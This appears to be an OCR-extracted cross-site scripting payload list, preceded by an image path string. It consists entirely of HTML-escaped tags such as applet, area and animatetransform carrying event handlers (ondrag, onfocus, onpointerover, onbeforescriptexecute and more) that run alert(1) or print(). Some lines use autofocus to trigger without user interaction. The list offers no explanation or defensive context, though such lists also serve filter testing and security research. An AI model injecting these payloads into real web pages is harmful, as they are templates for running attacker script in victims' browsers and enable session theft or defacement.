 &lt;animatetransform onpointerover=alert(1)&gt;XSS&lt;/animatetransform&gt;
&lt;animatetransform onpointerrawupdate=alert(1)&gt;XSS&lt;/animatetransform&gt;
&lt;animatetransform onpointerup=alert(1)&gt;XSS&lt;/animatetransform&gt;
&lt;applet draggable="true" ondrag="alert(1)"&gt;test&lt;/applet&gt;
&lt;applet draggable="true" ondragend="alert(1)"&gt;test&lt;/applet&gt;
&lt;applet draggable="true" ondragenter="alert(1)"&gt;test&lt;/applet&gt;
&lt;applet draggable="true" ondragleave="alert(1)"&gt;test&lt;/applet&gt;
&lt;applet draggable="true" ondragstart="alert(1)"&gt;test&lt;/applet&gt;
&lt;applet id=x tabindex=1 onactivate=alert(1)&gt;&lt;/applet&gt;
&lt;applet id=x tabindex=1 onbeforeactivate=alert(1)&gt;&lt;/applet&gt;
&lt;applet id=x tabindex=1 onbeforedeactivate=print()&gt;&lt;/applet&gt;&lt;input autofocus&gt;
&lt;applet id=x tabindex=1 ondeactivate=print()&gt;&lt;/applet&gt;&lt;input id=y autofocus&gt;
&lt;applet id=x tabindex=1 onfocus=alert(1)&gt;&lt;/applet&gt;
&lt;applet id=x tabindex=1 onfocusin=alert(1)&gt;&lt;/applet&gt;
&lt;applet onafterscriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;applet onbeforecopy="alert(1)" contenteditable&gt;test&lt;/applet&gt;
&lt;applet onbeforecut="alert(1)" contenteditable&gt;test&lt;/applet&gt;
&lt;applet onbeforepaste="alert(1)" contenteditable&gt;test&lt;/applet&gt;
&lt;applet onbeforescriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;applet onblur=alert(1) tabindex=1 id=x&gt;&lt;/applet&gt;&lt;input autofocus&gt;
&lt;applet onclick="alert(1)"&gt;test&lt;/applet&gt;
&lt;applet oncontextmenu="alert(1)"&gt;test&lt;/applet&gt;
&lt;applet oncopy=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;applet oncut=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;applet ondblclick="alert(1)" autofocus tabindex=1&gt;test&lt;/applet&gt;
&lt;applet onfocusout=alert(1) tabindex=1 id=x&gt;&lt;/applet&gt;&lt;input autofocus&gt;
&lt;applet onkeydown="alert(1)" contenteditable&gt;test&lt;/applet&gt;
&lt;applet onkeypress="alert(1)" contenteditable&gt;test&lt;/applet&gt;
&lt;applet onkeyup="alert(1)" contenteditable&gt;test&lt;/applet&gt;
&lt;applet onmousedown="alert(1)"&gt;test&lt;/applet&gt;
&lt;applet onmouseenter="alert(1)"&gt;test&lt;/applet&gt;
&lt;applet onmouseleave="alert(1)"&gt;test&lt;/applet&gt;
&lt;applet onmousemove="alert(1)"&gt;test&lt;/applet&gt;
&lt;applet onmouseout="alert(1)"&gt;test&lt;/applet&gt;
&lt;applet onmouseover="alert(1)"&gt;test&lt;/applet&gt;
&lt;applet onmouseup="alert(1)"&gt;test&lt;/applet&gt;
&lt;applet onmousewheel=alert(1)&gt;requires scrolling
&lt;applet onpaste="alert(1)" contenteditable&gt;test&lt;/applet&gt;
&lt;applet onpointerdown=alert(1)&gt;XSS&lt;/applet&gt;
&lt;applet onpointerenter=alert(1)&gt;XSS&lt;/applet&gt;
&lt;applet onpointerleave=alert(1)&gt;XSS&lt;/applet&gt;
&lt;applet onpointermove=alert(1)&gt;XSS&lt;/applet&gt;
&lt;applet onpointerout=alert(1)&gt;XSS&lt;/applet&gt;
&lt;applet onpointerover=alert(1)&gt;XSS&lt;/applet&gt;
&lt;applet onpointerrawupdate=alert(1)&gt;XSS&lt;/applet&gt;
&lt;applet onpointerup=alert(1)&gt;XSS&lt;/applet&gt;
&lt;applet onreadystatechange=alert(1)&gt;&lt;/applet&gt;
&lt;area draggable="true" ondrag="alert(1)"&gt;test&lt;/area&gt;
&lt;area draggable="true" ondragend="alert(1)"&gt;test&lt;/area&gt;
&lt;area draggable="true" ondragenter="alert(1)"&gt;test&lt;/area&gt;
&lt;area draggable="true" ondragleave="alert(1)"&gt;test&lt;/area&gt;
&lt;area draggable="true" ondragstart="alert(1)"&gt;test&lt;/area&gt;
&lt;area id=x tabindex=1 onactivate=alert(1)&gt;&lt;/area&gt;
&lt;area id=x tabindex=1 onbeforeactivate=alert(1)&gt;&lt;/area&gt;
&lt;area id=x tabindex=1 onbeforedeactivate=print()&gt;&lt;/area&gt;&lt;input autofocus&gt;
&lt;area id=x tabindex=1 ondeactivate=print()&gt;&lt;/area&gt;&lt;input id=y autofocus&gt;
&lt;area onafterscriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;area onbeforecopy="alert(1)" contenteditable&gt;test&lt;/area&gt;
&lt;area onbeforecut="alert(1)" contenteditable&gt;test&lt;/area&gt;
&lt;area onbeforepaste="alert(1)" contenteditable&gt;test&lt;/area&gt;
&lt;area onbeforescriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;area onblur=alert(1) tabindex=1 id=x&gt;&lt;/area&gt;&lt;input autofocus&gt;
&lt;area onclick="alert(1)"&gt;test&lt;/area&gt;
&lt;area oncontextmenu="alert(1)"&gt;test&lt;/area&gt;